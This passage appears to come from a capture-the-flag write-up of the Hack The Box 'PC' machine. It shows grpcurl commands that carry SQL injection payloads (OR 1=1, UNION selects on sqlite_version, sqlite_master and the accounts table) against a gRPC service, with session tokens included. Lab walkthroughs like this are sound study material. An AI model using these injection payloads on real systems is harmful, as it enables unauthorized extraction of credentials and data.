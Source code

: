 It looks like logging into the service worked. Let's try a basic SQL injection in the ID parameter

```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA3NTk0MTR9.wU1nEE4r0kiPpqfc9mX4u73Yip-eHy-HQyNXCVzGsao" \
  -d '{"id": "555 OR 1=1"}' \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```

We get the reponse `"message": "The admin is working hard to fix the issues.`

It looks like our simple SQL injection payload worked. Instead of querying specifically for the ID of 555, it evaluated 1=1 to true, retraining data related to the admin message

Let's trying querying for the DB version

```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA3NTk0MTR9.wU1nEE4r0kiPpqfc9mX4u73Yip-eHy-HQyNXCVzGsao" \
  -d '{"id": "555 union select sqlite_version()"}' \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```

We've confirmed that the method we're interacting with is querying a `SQLite` DB and that the version is `3.31.1`

Now we can craft an SQLi to extract data from the `sql_master` table. Which is the table in SQLite that stores metadata on all the tables in the database. Let's grab the definition of the `accounts` table

```bash
  "id": "797 union select sql FROM sqlite_master WHERE type=\"table\" AND name=\"accounts\"; --"
```

![Accounts Table ](/assets/images/HTB%20-%20PC/Accounts%20table.png)

Great, we got the schema of the accounts table. it looks like it consists of two columns, `username (Unique)` and `password`. I will use the following command to list the username

<span style="color: red;">I had to switch my data format to text (protobuf text format) from here as I kept getting errors in my SQLi using json</span>


```bash
grpcurl -plaintext \
  -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiSmlnc2F3NjQiLCJleHAiOjE3MjA4MzU1MDJ9.vCG_S9c_VNlCb3vuF8-HXR8Rw8TWt9T3nQzeHG6FzPk" \
  -d 'id: "42 UNION SELECT group_concat(username, '"'"','"'"') FROM accounts"' \
  -format text \
  -vv \
  10.10.11.214:50051 SimpleApp.getInfo
```

![Sau User Discoverd](/assets/images/HTB%20-%20PC/sau%20user.png)
